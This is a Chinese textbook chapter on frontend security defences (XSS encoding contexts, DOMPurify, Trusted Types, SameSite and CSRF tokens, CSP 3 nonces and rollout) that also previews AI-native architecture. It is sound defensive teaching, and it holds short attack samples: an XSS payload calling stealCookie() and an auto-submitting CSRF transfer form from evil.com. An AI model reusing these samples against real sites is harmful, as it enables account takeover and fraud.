# 第 9 章 前端安全体系构建与 AI 原生应用架构 —— 从纵深防御到智能系统工程
作者：龙哥

## 学习目标

- 理解前端安全体系的纵深防御思想，掌握 XSS、CSRF 等经典攻击的成因与防御矩阵
- 熟练配置 CSP 3 策略，掌握 nonce、hash、strict-dynamic 等指令实现脚本执行的精准授权
- 掌握 Trusted Types API 原理与落地，从根源上杜绝 DOM 型 XSS 注入风险
- 建立供应链安全意识，掌握依赖审计、锁文件管理、SBOM 生成与恶意包检测的工程化流程
- 具备制定前端安全基线清单与应急响应 SOP 的能力，接入 SDL 安全开发生命周期
- 理解 RAG 系统的模块化架构与评估体系，掌握检索增强生成的工程化落地
- 掌握 AI 原生应用架构的核心范式，理解 LLM 从工具到内核的跃迁
- 建立提示工程的结构化编程思维，掌握提示词版本化、结构化输出与自动优化流程
- 理解 Agent 架构的演进与多智能体协作机制，掌握长程规划与工具调用标准化
- 构建分层记忆系统与个性化建模能力，实现长期陪伴型智能体的持续进化

## 9.1 生活类比

想象前端应用是一座**高安保级别的智能大厦**：

- **XSS 攻击** = 伪装成访客的间谍，混入恶意指令单（脚本）诱导前台（浏览器）执行违规操作：
  - **编码上下文** = 不同区域的安检规则（大厅/电梯/机房需不同证件）
  - **DOMPurify** = 入口安检机，按白名单清洗携带物品
  - **Trusted Types** = 强制实名制通行证系统，无证件（可信类型）寸步难行
- **CSRF 攻击** = 偷走员工工牌（Cookie）冒充身份刷门禁：
  - **SameSite Cookie** = 工牌加装‘仅限本人持用’芯片（Lax/Strict），跨楼宇自动失效
  - **双重提交令牌** = 刷工牌同时需验证动态验证码（Header Token）
- **CSP 策略** = 大厦总控系统发布的‘准入白名单’：
  - **nonce/hash** = 单次有效的电子通行码 / 人脸识别特征码
  - **strict-dynamic** = 信任链传递：受信系统（脚本）引入的子系统自动受信
  - **Report-Only** = 先发‘预警模式’观察误拦情况，再正式执法
- **供应链安全** = 装修材料（依赖包）供应商资质审核体系：
  - **依赖审计/锁文件** = 严查材料产地、锁定批次防止偷梁换柱
  - **SBOM** = 出具完整‘材料成分表’备查
- **安全基线与 SOP** = 大厦的《消防条例》与《应急预案》：
  - **Checklist** = 日常巡检清单
  - **SDL** = 从设计、施工、验收到运维的全生命周期安全规范

想象 AI 原生应用是一个**具备自主进化能力的数字生命体**：

- **LLM 内核** = 大脑皮层，负责推理、规划、决策，而非单纯反射
- **Chain** = 条件反射神经回路，处理标准化、确定性流程
- **Agent** = 前额叶执行功能，在不确定环境中自主规划、试错、修正
- **Memory** = 海马体与皮层长期记忆，分层存储工作/情景/语义/程序性记忆
- **RAG** = 外接知识库硬盘，按需检索注入上下文，解决幻觉与时效性
- **提示工程** = 自然语言编程接口，通过结构化指令精准驾驭模型行为
- **可观测性** = 核磁共振成像系统，实时洞察每个神经元（Span）的激活轨迹
- **数据飞轮** = 进化机制：交互→反馈→训练→部署→更优交互，实现‘用得越多、懂得越多’

## 9.2 概念地图

前端安全体系构建
├── XSS 攻防全景
│   ├── 攻击分型：存储型/反射型/DOM-based  —— 20230418_042.md
│   ├── 编码上下文：HTML/Attribute/JS/URL/CSS 五大场景  —— 20230418_042.md
│   ├── 防御手段：DOMPurify 白名单清洗  —— 20230418_042.md
│   └── 终极防御：Trusted Types 强制安全类型赋值  —— 20230418_042.md
├── CSRF 与 SameSite Cookie
│   ├── 攻击链路演示与同源策略演进  —— 20230418_042.md
│   ├── SameSite=Lax/Strict/None 实战拦截效果  —— 20230418_042.md
│   └── 双重提交令牌模式（Header/表单）  —— 20230418_042.md
├── 内容安全策略 (CSP 3)
│   ├── 核心指令：script-src 'nonce-xxx' 'strict-dynamic'  —— 20230418_042.md
│   ├── 部署策略：report-uri 违规上报、Report-Only 灰度  —— 20230418_042.md
│   └── 兼容性：哈希值兜底、内联脚本治理  —— 20230418_042.md
├── 供应链安全
│   ├── 依赖审计：npm audit/pnpm audit/Snyk/Socket CI 接入  —— 20230418_042.md
│   ├── 完整性保障：package-lock.json 版本锁定  —— 20230418_042.md
│   └── 合规交付：CycloneDX SBOM 生成  —— 20230418_042.md
└── 安全工程化落地
    ├── 基线清单：《前端安全开发规范》《安全编码 Checklist》  —— 20230418_042.md
    ├── 应急响应：漏洞分级与响应流程 SOP  —— 20230418_042.md
    └── SDL 集成：安全开发生命周期闭环  —— 20230418_042.md
AI 原生应用架构体系
├── 核心范式转变
│   ├── LLM 作为操作系统内核  —— 20230418_105.md
│   └── 模型即内核 vs 模型即服务  —— 20230418_105.md
├── 核心抽象层
│   ├── Chain 确定性流程编排  —— 20230418_105.md
│   ├── Agent 非确定性规划循环  —— 20230418_105.md
│   └── Memory 长期状态持久化  —— 20230418_105.md
├── 工程化落地模式 (MVA)
│   ├── 流式输出与异步编排  —— 20230418_109.md
│   ├── 可观测性与版本管理  —— 20230418_109.md
│   └── 分层架构参考实现  —— 20230418_109.md
├── 提示工程体系化
│   ├── PromptTemplate 与 ExampleSelector 解耦  —— 20230418_105.md
│   ├── OutputParser 与 Pydantic 类型安全  —— 20230418_105.md
│   └── DSPy/OPRO 自动优化编译流程  —— 20230418_136.md
├── RAG 系统工程化
│   ├── 模块化 Pipeline 接口标准化  —— 20230418_106.md
│   ├── 混合检索与重排序策略  —— 20230418_106.md
│   ├── RAGAS/ARES 评测体系与数据飞轮  —— 20230418_109.md
│   └── Agentic RAG：检索即工具  —— 20230418_136.md
├── Agent 架构与规划推理
│   ├── ReAct/Plan-and-Execute/Reflexion 范式对比  —— 20230418_105.md
│   ├── Function Calling/MCP 工具标准化协议  —— 20230418_106.md
│   ├── MCTS/ToT 树搜索与 LLM Compiler 并行执行  —— 20230418_109.md
│   └── 多 Agent 协作：MetaGPT/AutoGen 群聊编排  —— 20230418_136.md
├── 记忆与个性化系统
│   ├── 四层记忆架构：STM/LTM/语义/程序性  —— 20230418_105.md
│   ├── 用户画像动态构建与偏好对齐  —— 20230418_110.md
│   └── 记忆冲突消解与信念修正机制  —— 20230418_106.md
└── 可观测性、评测与数据飞轮
    ├── LangSmith/LangFuse 全链路 Trace/Span  —— 20230418_105.md
    ├── 单元/离线/在线三层评测金字塔  —— 20230418_110.md
    └── 数据飞轮：轨迹采样→偏好数据→模型迭代→灰度发布  —— 20230418_136.md

## 9.3 XSS 攻防全景 —— 从注入原理到可信类型终极防御

### 9.3.1 XSS 攻击分型与成因分析

跨站脚本攻击（XSS）的本质是浏览器将攻击者注入的数据误认为是可执行代码。根据注入 payload 的存储位置与触发方式，我们将其分为三大类，理解分型是选择正确防御策略的前提。来源：《20230418_042.md》

> "XSS 攻击分为存储型、反射型、DOM-based 三类。存储型 payload 持久化在数据库，所有访问页面的用户均会触发；反射型 payload 通过 URL 参数即时反射在响应中；DOM-based 则完全发生在客户端，服务端响应的 HTML 并未包含恶意代码，而是前端 JS 读取不可信数据（如 `location.hash`）后动态写入 DOM。"

**直觉理解**：存储型就像恶意涂鸦喷在了公共墙面上（数据库），所有路过的人（用户）都会“中招”；反射型就像有人递给你一张写有恶意指令的纸条（URL 参数），你照着念了一遍（服务端直接拼接进响应），旁边的人听到了就执行；DOM-based 则是你自己在客户端捡起地上的纸条（读取 `location.hash`），然后贴到了自己的墙上（`innerHTML`），完全不经过服务端。

**形式化攻击面定义**：

我们定义前端应用的攻击面为一个三元组 $(S, T, E)$：
- $S$ (Source)：不可信数据来源，如 `location.href`, `document.referrer`, `localStorage`, `IndexedDB`, 后端 API 返回字段。
- $T$ (Transmission)：数据传递路径，如变量赋值、函数参数传递、Promise 链、状态管理流。
- $E$ (Sink)：敏感执行汇点，即浏览器将字符串作为代码/标记执行的 API。

$$ \text{XSS Vulnerability} \iff \exists s \in S, e \in E, \text{path}(s \to e) \land \neg \text{Sanitized}(s, \text{context}(e)) $$

**公式逐步推导与解释**：
1. **定义攻击要素**：首先识别出三个核心要素——来源、传输路径、汇点。这是建模的基础。
2. **存在性量词**：使用 $\exists$ 表示“存在至少一条”攻击路径。只要有一条路径满足条件，漏洞就存在。
3. **路径连通性**：$\text{path}(s \to e)$ 表示数据从来源能流向汇点，中间未被切断。
4. **未消毒条件**：$\neg \text{Sanitized}(s, \text{context}(e))$ 是关键，即在到达汇点前，数据未经过针对该汇点上下文的消毒处理。上下文敏感性是核心：同一数据在 HTML 文本和 JS 字符串中需要不同的消毒方式。
5. **防御启示**：该公式揭示了防御的三个切入点——消除来源（不可行）、切断传输路径（如 CSP 限制加载）、在汇点前消毒（编码/清洗）、改变汇点机制拒绝字符串（Trusted Types）。这是后续所有防御手段的理论依据。

### 9.3.2 五大编码上下文与转义规则

浏览器解析 HTML 文档时，处于不同的解析上下文中，每种上下文对特殊字符的解释规则完全不同。“通用转义函数”不存在，混用会导致防御失效。来源：《20230418_042.md》

以下表格对比了五大核心编码上下文及其对应的转义策略，核心结论是：必须在明确输出上下文时选择正确的编码器，而非在输入时存储转义后的数据，因为同一份数据可能在 HTML 属性、JS 字符串、URL 参数中复用。

| 上下文 | 典型 Sink 示例 | 核心转义规则 | 典型误用陷阱 |
| :--- | :--- | :--- | :--- |
| **HTML 文本** | `el.textContent`, `el.innerText`, `div.innerHTML` (文本节点位置) | `& → &amp;`, `< → &lt;`, `> → &gt;`, `"` → `&quot;`, `'` → `&#x27;` | 直接拼入 `innerHTML` 属性值或标签内文本未转义 |
| **HTML 属性** | `el.setAttribute('attr', val)`, `div.innerHTML=""` | 双引号属性值：同 HTML 文本 + 禁止非编码引号；单引号属性值：额外转义 `'` | 使用单引号包裹属性值但未转义单引号；未加引号直接拼接 |
| **JavaScript** | `<script>var x = 'USER_INPUT';</script>`, `eval()`, `new Function()` | Unicode 转义：`< → \u003c`, `> → \u003e`, `& → \u0026`, `' → \u0027`, `" → \u0022`, `\ → \\`, `/ → \/` | 仅做 HTML 转义放入 JS 字符串（如 `</script>` 标签闭合绕过）；模板字符串 `${}` 直接插值 |
| **URL** | `a.href = val`, `location.href = val`, `fetch(val)` | 百分号编码：保留字符 `!*'();:@&=+$,/?#[]` 及非 ASCII 字符需编码 | 直接拼接用户输入作为 URL 路径/参数，未 `encodeURIComponent`；允许 `javascript:` 协议 |
| **CSS** | `el.style.cssText = val`, `<style>{val}</style>` | CSS 转义：`\` + 十六进制码 (如 `<` → `\3C `) | 允许用户控制 `url()`、`expression()` (IE) 或 `@import` 引入恶意资源 |

**关键原则**：输出时转义，而非输入时存储。因为同一份数据可能在 HTML 属性、JS 字符串、URL 参数中复用，只有在明确输出上下文时才能选择正确的编码器。

### 9.3.3 DOMPurify：富文本场景的白名单清洗卫士

当业务合法需要用户输入 HTML（如富文本编辑器、Markdown 渲染）时，转义会破坏功能。此时必须引入白名单清洗库——DOMPurify 是目前生态最成熟、维护最活跃的方案。来源：《20230418_042.md》

> "实战 DOMPurify 配置策略：白名单标签/属性/URI、CSP 兼容模式、异步清洗大文本。"

**核心配置策略（概念即图纸）**：

```typescript
// 概念定义：SanitizeConfig 即“清洗规格图纸”
interface SanitizeConfig {
  // 1. 标签白名单：仅允许语义化标签，剥离 script/iframe/style/on* 等危险标签
  ALLOWED_TAGS: string[];        // 如 ['p', 'b', 'i', 'ul', 'li', 'img', 'a']
  
  // 2. 属性白名单：全局允许的属性，防止 onload/onclick 等事件注入
  ALLOWED_ATTR: string[];        // 如 ['href', 'src', 'alt', 'title', 'class']
  
  // 3. URI 属性值校验：针对 href/src 等属性，强制校验协议白名单
  ALLOWED_URI_REGEXP: RegExp;    // 如 /^(?:(?:https?|mailto|tel):|[^a-z]|[a-z+.\-]+(?:[^a-z+.\-]|$))/i
  
  // 4. CSP 兼容模式：不移除 nonce 属性，支持 CSP 'strict-dynamic'
  KEEP_CONTENT: boolean;         // true: 保留未知标签内的文本内容而非整个剥离
  
  // 5. 钩子机制：清洗前/后插入自定义逻辑
  FORBID_TAGS: string[];         // 强制禁用标签，优先级高于 ALLOWED_TAGS
  FORBID_ATTR: string[];         // 强制禁用属性
}
```

**实战代码示例**：

```javascript
import DOMPurify from 'dompurify';

// 1. 基础配置：典型富文本白名单
const basicConfig = {
  ALLOWED_TAGS: ['p', 'br', 'b', 'i', 'strong', 'em', 'u', 'ul', 'ol', 'li', 'a', 'img', 'blockquote', 'code', 'pre', 'h1', 'h2', 'h3'],
  ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class', 'target', 'rel'],
  // 关键：限制 href/src 只能是 http/https/mailto/data 协议，阻断 javascript: 攻击
  ALLOWED_URI_REGEXP: /^(?:(?:https?|mailto|tel|data):|[^a-z]|[a-z+.\-]+(?:[^a-z+.\-]|$))/i,
  // 保留 target="_blank" 的 rel="noopener" 自动补全
  ADD_ATTR: ['rel'],
  ADD_URI_SAFE_ATTR: ['href']
};

// 2. 严格模式：仅允许纯文本格式化，无链接无图片
const strictConfig = {
  ...basicConfig,
  ALLOWED_TAGS: ['p', 'br', 'b', 'i', 'strong', 'em', 'u', 'blockquote', 'code', 'pre'],
  ALLOWED_ATTR: ['class']
};

// 3. 异步清洗大文本（避免阻塞主线程）
async function sanitizeLargeHtml(dirtyHtml: string, config = basicConfig): Promise<string> {
  // DOMPurify 在支持的环境下可使用 Web Worker
  if (typeof window !== 'undefined' && window.Worker && dirtyHtml.length > 50000) {
    return new Promise((resolve) => {
      // 简化演示：实际需使用 DOMPurify.sanitize 配合 Worker 封装
      // 此处演示同步调用，生产环境建议使用 dompurify 的异步 API 或自行 offload
      resolve(DOMPurify.sanitize(dirtyHtml, config));
    });
  }
  return DOMPurify.sanitize(dirtyHtml, config);
}

// 使用示例
const userInput = `<p>正常内容</p><script>stealCookie()</script>`;
const cleanHtml = DOMPurify.sanitize(userInput, basicConfig);
// 结果: <p>正常内容</p>  (img 因无 src 协议被剥离，script 被剥离)
```

**这段代码展示了**：通过“标签白名单 + 属性白名单 + URI 协议正则”三重过滤，我们在保留业务所需富文本能力的同时，将攻击面压缩到极致。但请注意：DOMPurify 运行在 JS 层，无法防御绕过其解析器的浏览器解析差异（如变异 XSS, mXSS），这引出了终极防御——Trusted Types。

### 9.3.4 Trusted Types：从根源消灭 DOM XSS 的类型契约

Trusted Types (TT) 是 W3C 标准、浏览器原生实现的强制类型系统。它不再依赖“开发者记得转义”，而是强制敏感 Sink 只接受特定类型对象，将安全保障从“运行时清洗”提升到“类型检查/运行时强制赋值”。来源：《20230418_042.md》

> "深度理解 Trusted Types 原理：TrustedHTML/TrustedScript/TrustedScriptURL 类型契约、Policy 创建与默认策略、配合 DOMPurify 实现 createHTML 钩子。分析 Trusted Types 对 DOM 型 XSS 的根治机制：innerHTML、document.write、eval 等敏感汇点的强制类型检查。"

**核心类型契约（形式化定义）**：

浏览器引入三种不可伪造的可信类型（只能由 `TrustedTypePolicy.createXxx` 创建）：

$$
\begin{align*}
\text{TrustedHTML} &: \text{用于 } \texttt{innerHTML}, \texttt{outerHTML}, \texttt{insertAdjacentHTML}, \texttt{<template>.innerHTML} \\
\text{TrustedScript} &: \text{用于 } \texttt{eval()}, \texttt{new Function()}, \texttt{setTimeout(string)}, \texttt{setInterval(string)} \\
\text{TrustedScriptURL} &: \text{用于 } \texttt{script.src}, \texttt{importScripts()}, \texttt{new Worker(url)}, \texttt{script.srcset}
\end{align*}
$$

**策略创建与默认策略（关键方法）**：

```javascript
// 1. 创建策略：命名策略 + createHTML/createScript/createScriptURL 钩子
// 来源：《20230418_042.md》配合 DOMPurify 实现 createHTML 钩子
if (window.trustedTypes && trustedTypes.createPolicy) {
  // 策略名 'default' 会自动应用于所有未显式指定策略的赋值
  const policy = trustedTypes.createPolicy('default', {
    // createHTML: string -> TrustedHTML
    // 这里接入 DOMPurify，实现“赋值即清洗”
    createHTML: (input: string) => DOMPurify.sanitize(input, basicConfig),
    
    // createScript: string -> TrustedScript
    // 严格场景可直接拒绝或仅允许特定哈希
    createScript: (script: string) => {
      // 示例：仅允许通过 nonce 校验的内联脚本（需配合 CSP）
      // 实际生产中内联脚本极少，建议抛错或返回空脚本
      throw new Error('Inline script execution blocked by Trusted Types policy');
    },
    
    // createScriptURL: string -> TrustedScriptURL
    // 校验脚本来源域名白名单
    createScriptURL: (url: string) => {
      const allowedOrigins = ['self', 'https://cdn.example.com', 'https://unpkg.com'];
      // 简化校验逻辑
      if (allowedOrigins.some(origin => url.startsWith(origin) || url.startsWith('/'))) {
        return url; // 返回字符串会被自动包装为 TrustedScriptURL
      }
      throw new Error(`Untrusted script URL: ${url}`);
    }
  });
  
  // 2. 为第三方库（如 Quill 编辑器）创建专用策略，避免污染默认策略
  trustedTypes.createPolicy('quill', {
    createHTML: (input) => DOMPurify.sanitize(input, quillConfig) // 更宽松的配置
  });
  
  // 3. 允许策略复写（开发调试用），生产环境建议关闭
  // trustedTypes.createPolicy('default', { ... }, { allowDuplicates: true });
}
```

**强制类型检查机制（数据流图）**：

```mermaid
graph TD
    A[用户输入 / API 数据] --> B{赋值给 Sink}
    B -->|innerHTML = string| C[Trusted Types 拦截]
    C --> D[查找 'default' Policy]
    D --> E[调用 policy.createHTML(string)]
    E --> F[DOMPurify.sanitize]
    F --> G[返回 TrustedHTML 对象]
    G --> H[浏览器接受赋值，渲染安全 HTML]
    
    B -->|innerHTML = TrustedHTML| I[直接通过类型检查]
    I --> H
    
    style C fill:#ffcccc,stroke:#ff0000
    style G fill:#ccffcc,stroke:#00ff00
```

**这张图展示了**：Trusted Types 将“安全赋值”变成了一个类型约束问题。攻击者注入的字符串 `` 无法直接赋值给 `innerHTML`，必须经过 `policy.createHTML` 的“洗礼”才能变成 `TrustedHTML`。这从语言运行时层面切断了“字符串到代码”的隐式转换路径，实现了对 DOM XSS 的根治（而非缓解）。

**边界情况处理**：

1.  `DOMParser.parseFromString` 返回 `Document`：需手动序列化后再走策略，或使用 `trustedTypes.createPolicy` 的 `createHTML` 处理片段。
2.  第三方库直接操作 `innerHTML` 且无法改源码：
    - 方案 A：Monkey Patch 库的赋值逻辑，包装为 `policy.createHTML` 调用。
    - 方案 B：开启 `'allow-duplicates'` 创建同名策略覆盖（慎用，生产环境不推荐）。
3.  `location.href = 'javascript:...'`：属于 URL 上下文，TT 目前不直接管控 `location` 赋值，需配合 CSP `script-src` 禁止 `javascript:` 协议或使用 `URL` 构造器校验。

---

## 9.4 CSRF 与 SameSite Cookie —— 同源策略演进下的请求伪造攻防

### 9.4.1 CSRF 攻击链路与同源策略演进

跨站请求伪造（CSRF）利用浏览器自动携带 Cookie 的机制，诱导受害者在已登录站点上执行非本意操作。同源策略（SOP）的演进直接决定了 CSRF 的攻击面与防御手段。来源：《20230418_042.md》

> "复现经典 CSRF 攻击场景：GET/POST 请求伪造、预检请求绕过、子域名泄露。实测 SameSite 属性三种取值的拦截边界：Lax 允许顶级导航、Strict 全阻断、None 需 Secure 配合跨域。"

**攻击链路复现（时序图）**：

```mermaid
sequenceDiagram
    participant User as 受害用户
    participant Attacker as 攻击者网站 evil.com
    participant Bank as 目标站点 bank.com
    
    User->>Bank: 1. 正常登录，获取 Session Cookie
    Bank-->>User: Set-Cookie: session=abc; SameSite=Lax
    
    User->>Attacker: 2. 访问恶意页面 (钓鱼/广告/被入站)
    Attacker-->>User: 3. 返回包含自动提交表单的 HTML
    Note right of User: <form action="https://bank.com/transfer" method="POST">\n  <input name="to" value="attacker">\n  <input name="amount" value="1000">\n</form>\n<script>document.forms[0].submit()</script>
    
    User->>Bank: 4. 浏览器自动携带 Cookie 发起 POST 请求
    Note right of Bank: 关键点：SameSite=Lax 是否拦截 POST？
    Bank-->>User: 5. 执行转账（若 Cookie 被携带）
```

**SameSite 三种取值的拦截边界实测表**：

| SameSite 值 | 跨站链接 `<a href>` | 跨站表单 POST | 跨站 `fetch`/AJAX | 跨站 `` / `<iframe>` | 典型适用场景 |
| :--- | :---: | :---: | :---: | :---: | :--- |
| **Strict** | ❌ 拦截 | ❌ 拦截 | ❌ 拦截 | ❌ 拦截 | 高安全操作（修改密码、转账确认页） |
| **Lax** (默认) | ✅ 携带 | ❌ 拦截 | ❌ 拦截 | ❌ 拦截 | 通用会话 Cookie，**推荐默认值** |
| **None** | ✅ 携带 | ✅ 携带 | ✅ 携带 | ✅ 携带 | **必须**配合 `Secure` (HTTPS)，跨域单点登录、嵌入式 Widget |

**关键结论**：现代浏览器默认 `SameSite=Lax` 已能防御 90% 以上的 CSRF 场景（包括表单 POST、AJAX、资源加载）。仅剩“顶级导航 GET 请求”会携带 Cookie，但 GET 语义应为幂等/安全操作，不应承担状态变更职责，这是 RESTful 设计与 CSRF 防御的共识。

### 9.4.2 双重提交令牌模式：纵深防御的最后一道防线

对于必须支持跨域、或无法依赖 SameSite（旧浏览器、特殊嵌入场景）的情况，双重提交令牌是标准化补丁。来源：《20230418_042.md》

**核心原理**：服务端生成不可预测的 Token，通过非 Cookie 通道（Header / 隐藏表单域）传给前端，前端每次状态变更请求必须同时携带 Cookie（自动）与 Token（手动）。攻击者无法读取跨域响应获取 Token，从而无法伪造完整请求。

**工程化实现方案（伪代码）**：

```typescript
// 后端：签发 Token (通常在登录后、或渲染页面时下发)
// 存储在服务端 Session / Redis 中，或使用签名 JWT 无状态化
function issueCsrfToken(userId: string): string {
  const token = crypto.randomBytes(32).toString('hex');
  // 存储: redis.setex(`csrf:${userId}`, 3600, token);
  // 或签名: return sign({ userId, token, exp: Date.now() + 3600e3 }, SECRET);
  return token;
}

// 后端：校验中间件
function csrfGuard(req: Request, res: Response, next: NextFunction) {
  // 1. 安全方法豁免
  if (['GET', 'HEAD', 'OPTIONS'].includes(req.method)) return next();
  
  // 2. 从 Header 读取 (推荐：AJAX/Fetch 场景)
  const headerToken = req.headers['x-csrf-token'] || req.headers['x-xsrf-token'];
  // 3. 从 Body 读取 (表单提交兜底)
  const bodyToken = req.body?._csrf;
  const clientToken = headerToken || bodyToken;
  
  if (!clientToken) return res.status(403).json({ error: 'CSRF token missing' });
  
  // 4. 校验逻辑 (示例：Redis 对比)
  // const serverToken = await redis.get(`csrf:${req.user.id}`);
  // if (clientToken !== serverToken) return res.status(403).json({ error: 'Invalid CSRF token' });
  
  next();
}

// 前端：Axios/Fetch 拦截器自动携带
// 登录后从 <meta name="csrf-token" content="..."> 或 /api/csrf 接口获取初始 Token
const csrfToken = document.querySelector('meta[name="csrf-token"]')?.getAttribute('content');

axios.interceptors.request.use(config => {
  if (!['get', 'head', 'options'].includes(config.method?.toLowerCase())) {
    config.headers['X-CSRF-Token'] = csrfToken;
  }
  return config;
});
```

**纵深防御组合拳（流程图）**：

```mermaid
graph TD
    A[请求到达] --> B{SameSite=Lax/Strict?}
    B -->|是| C[浏览器自动拦截跨站 POST/AJAX]
    C --> D[请求终止，无需后端处理]
    B -->|否 (None/旧浏览器/顶级导航 GET)| E[双重提交令牌校验]
    E --> F{Token 匹配?}
    F -->|否| G[拦截 403]
    F -->|是| H[放行业务逻辑]
    
    style D fill:#ccffcc,stroke:#00ff00
    style G fill:#ffcccc,stroke:#ff0000
```

**这张图展示了**：SameSite 解决了大规模、自动化的 CSRF 攻击（低成本、高覆盖）；双重提交令牌解决了定向、绕过 SameSite 的高级攻击（高成本、精准防御）。两者互补，构成纵深防御体系。

---

## 9.5 内容安全策略 (CSP 3) —— 从策略编写到灰度部署的工程化实践

### 9.5.1 CSP 3 核心指令解构：`script-src` 的精准授权模型

CSP 3 引入 `strict-dynamic`、`nonce`、哈希值等机制，将脚本授权从“域名白名单”升级为“单次执行授权”与“信任链传递”，彻底解决了动态加载、第三方脚本、内联脚本难治理的痛点。来源：《20230418_042.md》

> "编写严格 CSP 策略：`script-src 'nonce-xxx' 'strict-dynamic'`、`report-uri` 收集违规日志、通过 Report-Only 模式灰度上线。"

**`script-src` 指令语义与优先级（形式化定义）**：

```
script-src [source-expression]...
source-expression :=
  | 'self'                    // 同源
  | <scheme>://<host>[:<port>] // 域名白名单
  | 'nonce-<base64-value>'    // 一次性随机数（每次响应唯一）
  | '<hash-algo>-<base64-value>' // 内联脚本内容哈希
  | 'strict-dynamic'          // 信任链传递：受信脚本创建的脚本自动受信
  | 'unsafe-inline'           // 允许所有内联脚本 (被 nonce/hash/strict-dynamic 覆盖)
  | 'unsafe-eval'             // 允许 eval/new Function (建议禁用)
  | 'unsafe-hashes'           // 允许内联事件处理器 (onclick=...) 通过哈希授权
```

**优先级规则（关键）**：
1.  若存在 `nonce` 或 `hash`，现代浏览器会忽略 `'unsafe-inline'` 和后续的域名白名单。
2.  若存在 `'strict-dynamic'`，浏览器会忽略后续的域名白名单，仅信任“受信脚本动态创建的脚本”。
3.  `'unsafe-inline'` 仅作为不支持 nonce/hash 的旧浏览器兜底。

### 9.5.2 Nonce 方案工程化：SSR/CSR 同构适配与 Webpack 兼容

Nonce 的核心要求是：每次 HTTP 响应生成一个不可预测的强随机数，并同时注入到 `<script nonce="...">` 标签与 CSP Header 中。来源：《20230418_042.md》

**服务端渲染 (SSR) 场景实战**：

```typescript
// Express/Koa/NestJS 中间件示例
import crypto from 'crypto';

function cspNonceMiddleware(req, res, next) {
  // 1. 生成强随机数 (Base64 编码，至少 128bit)
  const nonce = crypto.randomBytes(16).toString('base64');
  res.locals.cspNonce = nonce; // 传给模板引擎
  
  // 2. 构建 CSP Header
  const csp = [
    "default-src 'self'",
    `script-src 'nonce-${nonce}' 'strict-dynamic' 'unsafe-inline'`, // unsafe-inline 兜底旧浏览器
    "style-src 'self' 'unsafe-inline'", // 样式通常需允许内联
    "img-src 'self' data: https:",
    "connect-src 'self' https://api.example.com",
    "font-src 'self' data: https:",
    "frame-ancestors 'none'",
    "base-uri 'self'",
    "form-action 'self'",
    "report-uri /api/csp-report" // 违规上报端点
  ].join('; ');
  
  // 3. 双 Header 策略：Report-Only 先行，验证无误后切换 Enforce
  // 生产环境建议通过配置中心/特性开关控制
  const isEnforce = process.env.CSP_ENFORCE === 'true';
  res.setHeader(isEnforce ? 'Content-Security-Policy' : 'Content-Security-Policy-Report-Only', csp);
  
  next();
}
```

**模板引擎自动注入 (以 Vue SSR / React SSR / EJS 为例)**：

```html
<!-- 关键：入口脚本必须带 nonce -->
<script nonce="<%= cspNonce %>" src="/assets/app.[hash].js"></script>

<!-- Webpack Runtime 内联脚本 (如果未配置 extractRuntime) 也需 nonce -->
<!-- 现代 Webpack/Vite 可通过插件自动注入 -->
<script nonce="<%= cspNonce %>">
  // __webpack_require__... 运行时注入代码
</script>
```

**Webpack/Vite 构建时自动注入 Nonce（流程图）**：



**这段代码与流程图展示了**：Nonce 必须是请求级动态生成，不能构建时烙印在静态文件中。SSR 场景天然适配；纯 CSR (静态 HTML + CDN) 场景需通过 Edge Worker / Cloudflare Workers / Nginx `sub_filter` 在边缘层动态注入 Nonce 与 CSP Header，实现“静态资源动态安全化”。

### 9.5.3 `strict-dynamic` 信任链机制：动态加载脚本的终极适配

**为什么 `'strict-dynamic'` 会忽略后续的域名白名单？**

因为 `'strict-dynamic'` 的语义是：“我信任这个 nonce/哈希授权的脚本，以及它动态创建的所有子脚本（无论来源域名）”。它将信任锚点从“静态域名”转移到了“受信脚本实体”上。来源：《20230418_042.md》

```mermaid
graph LR
    A[HTML 响应] --> B[<script nonce="abc" src="/app.js"></script>]
    B --> C[浏览器验证 nonce 匹配 CSP]
    C --> D[/app.js 被标记为 Trusted]
    D --> E[/app.js 执行: const s=document.createElement('script'); s.src='https://cdn.thirdparty.com/analytics.js'; document.head.appendChild(s)]
    E --> F[浏览器检测: 父脚本 Trusted + strict-dynamic 开启]
    F --> G[自动信任 https://cdn.thirdparty.com/analytics.js]
    G --> H[执行第三方脚本，无需在 CSP 中显式允许该域名]
    
    style D fill:#ccffcc,stroke:#00ff00
    style G fill:#ccffcc,stroke:#00ff00
```

**适用场景与兼容性策略**：

| 场景 | 方案 |
| :--- | :--- |
| **首屏关键脚本** | `<script nonce="...">` 内联或外部引入 |
| **懒加载/动态 Import** | 受信脚本执行 `import('./chunk.js')` 或 `createElement('script')`，**自动继承信任** |
| **第三方统计/广告 SDK** | 由受信主脚本动态加载，**无需维护域名白名单** |
| **旧浏览器不支持 strict-dynamic** | 保留域名白名单作为兜底，现代浏览器会忽略它 |
| **必须使用 `eval` 的模板引擎** | 方案 1：预编译模板消灭 `eval`；方案 2：极小范围开启 `'unsafe-eval'` 并配合 `'strict-dynamic'` 隔离 |

**哈希值兜底策略**：

对于无法添加 `nonce` 的内联脚本（如某些老旧第三方 Widget 注入的内联代码），计算其内容 SHA256/384/512 哈希，写入 CSP：

```bash
# 计算哈希命令
echo -n 'console.log("hello")' | openssl dgst -sha256 -binary | openssl base64 -A
# 输出: Xyz123... -> CSP: script-src 'sha256-Xyz123...'
```

**构建时自动化**：使用 `webpack-subresource-integrity` 或 `vite-plugin-csp-hash` 插件，构建时自动计算所有内联脚本哈希并注入 CSP Header/HTML `<meta http-equiv="Content-Security-Policy">`。

### 9.5.4 Report-Only 灰度发布流水线：从预警到强制执法

**部署策略（关键方法）**：来源：《20230418_042.md》

```
阶段 1 (开发/测试环境)：
  Header: Content-Security-Policy-Report-Only: <strict-policy>; report-uri /csp-report
  目的: 发现所有违规，不阻断业务，收集噪音基线

阶段 2 (预发布/灰度 10%)：
  Header: Content-Security-Policy-Report-Only: <strict-policy>; report-uri /csp-report
  目的: 真实流量验证，分析报告，修复误拦 (补充 nonce/hash/域名白名单)

阶段 3 (全量 Report-Only)：
  持续 1-2 周零违规报告

阶段 4 (正式执法)：
  Header: Content-Security-Policy: <strict-policy>; report-uri /csp-report
  目的: 真正拦截攻击，持续监控报告发现新攻击向量
```

**违规报告聚合分析（数据结构）**：

```json
// POST /csp-report 接收到的报告体
{
  "csp-report": {
    "document-uri": "https://app.example.com/page",
    "referrer": "https://evil.com/",
